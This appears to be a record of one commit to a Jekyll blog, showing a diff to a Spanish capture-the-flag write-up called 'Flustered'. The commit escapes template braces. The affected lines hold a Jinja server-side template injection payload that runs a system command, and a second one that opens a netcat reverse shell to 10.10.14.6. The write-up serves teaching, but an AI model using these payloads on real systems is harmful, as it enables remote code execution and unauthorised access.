

Before and after one commit to jdejavi/jdejavi.github.io, a Jekyll site: the page built from _posts/2026-02-19-Flustered.md, in a window 1280 px wide and 900 px high, scrolled down 7775 px. Shown: the whole window, without its empty margins (178-1101 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2026-02-19-Flustered.md

````diff
--- a/_posts/2026-02-19-Flustered.md
+++ b/_posts/2026-02-19-Flustered.md
@@ -221,7 +221,7 @@ curl -X POST -H "Content-Type: application/json" -d '{"siteurl": "{{ 7 * 7 }}"}'
 Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x http://127.0.0.1:8080` y ejecutaremos un RCE
 
 ```
-{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
+\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() \}\}
 ```
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105202455.png" | relative_url }})
@@ -230,7 +230,7 @@ Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x ht
 Nos mandaremos una reverse shell
 
 ```
-{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/usr/bin/nc 10.10.14.6 6666 -e /bin/bash').read() }}
+\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('/usr/bin/nc 10.10.14.6 6666 -e /bin/bash').read() \}\}
 ```
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105202628.png" | relative_url }})
````
